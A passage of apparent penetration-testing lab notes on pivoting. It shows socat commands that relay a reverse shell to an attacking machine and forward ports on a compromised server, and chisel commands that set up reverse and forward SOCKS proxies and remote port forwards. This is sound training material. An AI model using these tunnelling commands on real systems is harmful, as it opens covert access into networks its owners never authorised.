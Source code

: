 3. `tcp:172.16.0.10:3306`: Connects to the specified remote address (172.16.0.10) and port (3306).
4. `&`: Runs the command in the background.

Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?

Use TCP port 8000 for the server listener, and do not background the process.

```
./socat -tcp-l:8000 tcp:172.16.0.200:443
```

**to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process:**

```
./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22&
```

### Chisel

[Chisel](https://github.com/jpillora/chisel) is an tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not

to show pther file transfer methods, we could use SCP:\
`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`

setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.

On our own attacking box we would use a command that looks something like this:\
`./chisel server -p LISTEN_PORT --reverse &`

This sets up a listener on your chosen `LISTEN_PORT`.

On the compromised host, we would use the following command:\
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

if we wanted to **Forward proxies**

on the compromised host we would use:\
`./chisel server -p LISTEN_PORT --socks5`

On our own attacking box we would then use:\
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

**remote port** forward is when we connect back from a compromised target to create the forward.

For a remote port forward, on our attacking machine we use the exact same command as before:\
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to.\
The command to connect back is slightly different this time, however:\
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`
